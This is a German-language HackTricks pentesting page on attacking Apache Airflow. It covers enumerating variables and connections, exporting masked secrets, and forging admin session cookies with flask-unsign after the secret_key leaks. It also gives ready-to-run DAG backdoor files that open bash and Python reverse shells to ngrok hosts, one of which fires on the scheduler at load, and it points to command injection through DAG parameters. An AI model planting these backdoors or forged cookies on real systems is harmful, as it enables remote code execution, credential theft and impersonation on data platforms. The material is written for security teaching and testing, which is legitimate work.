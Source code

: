 # Apache Airflow Sicherheit

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Grundinformationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform für **die Orchestrierung und Planung von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess der Anordnung, Koordination und Verwaltung komplexer Daten-Workflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und konsumierbare Datensätze bereitzustellen. Diese Datensätze werden umfassend von einer Vielzahl von Anwendungen genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschafts- und Machine-Learning-Modelle, die alle grundlegend für das Funktionieren von Big-Data-Anwendungen sind.

Im Grunde wird Apache Airflow es dir ermöglichen, **die Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **passiert**.

### Lokales Labor

#### Docker-Compose

Du kannst die **Docker-Compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow Docker-Umgebung zu starten. (Wenn du auf MacOS bist, stelle sicher, dass du der Docker-VM mindestens 6 GB RAM zuweist).

#### Minikube

Eine einfache Möglichkeit, **Apache Airflow** auszuführen, besteht darin, es **mit Minikube** zu betreiben:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow-Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder Sie könnten schwache Konfigurationen finden:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Bevor Sie mit dem Angriff auf Airflow beginnen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Angriffe

#### Webkonsole Enumeration

Wenn Sie **Zugriff auf die Webkonsole** haben, könnten Sie in der Lage sein, einige oder alle der folgenden Informationen zuzugreifen:

* **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
* Zugriff darauf in `http://<airflow>/connection/list/`
* [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
* Liste der **Benutzer & Rollen**
* **Code jedes DAG** (der interessante Informationen enthalten könnte)

#### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** auf ihre Werte **zugreifen** können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **genug Berechtigungen** haben, können Sie sie in der GUI unter `http://<airflow>/variable/list/` abrufen.\
Airflow zeigt standardmäßig den Wert der Variablen in der GUI an, jedoch ist es laut [**dieser**](https://marclamberti.com/blog/variables-with-apache-airflow/) Möglichkeit, eine **Liste von Variablen** festzulegen, deren **Wert** in der **GUI** als **Sternchen** angezeigt wird.

![](<../../.gitbook/assets/image (164).png>)

Diese **Werte** können jedoch weiterhin über **CLI** (Sie müssen DB-Zugriff haben), **willkürliche DAG**-Ausführung, **API**-Zugriff auf den Variablen-Endpunkt (die API muss aktiviert sein) und **sogar die GUI selbst!**\
Um auf diese Werte über die GUI zuzugreifen, wählen Sie einfach die **Variablen** aus, auf die Sie zugreifen möchten, und **klicken Sie auf Aktionen -> Exportieren**.\
Eine andere Möglichkeit besteht darin, einen **Bruteforce** auf den **versteckten Wert** durchzuführen, indem Sie die **Suchfilterung** verwenden, bis Sie ihn erhalten:

![](<../../.gitbook/assets/image (152).png>)

#### Privilegieneskalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können Benutzer ab der **Rolle Benutzer** und **darüber hinaus** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel **seinen eigenen signierten Cookie erstellen kann, um sich als ein anderer Benutzeraccount auszugeben**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert** sind, können Sie einfach **einen erstellen**, der Ihnen eine **Reverse-Shell** sendet.\
Beachten Sie, dass diese Reverse-Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE im Airflow-Scheduler)

Wenn Sie etwas auf **der Wurzel des Codes ausführen** lassen, wird es zum Zeitpunkt des Schreibens **vom Scheduler ausgeführt**, nachdem es ein paar Sekunden lang im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine im DAG-Cluster zu kompromittieren**, können Sie neue **DAG-Skripte** im `dags/`-Ordner erstellen, und sie werden **in den restlichen Maschinen** im DAG-Cluster **repliziert**.

#### DAG-Code-Injection

Wenn Sie einen DAG über die GUI ausführen, können Sie **Argumente** an ihn **übergeben**.\
Daher könnte der DAG, wenn er nicht ordnungsgemäß codiert ist, **anfällig für Command Injection** sein.\
Das ist, was in diesem CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Command Injections in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **zugegriffen** werden.

Darüber hinaus könnte die gleiche Verwundbarkeit auch bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Rechten **den Wert der Variablen** in der GUI **steuern** könnten). Variablen werden **zugegriffen mit**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie beispielsweise innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
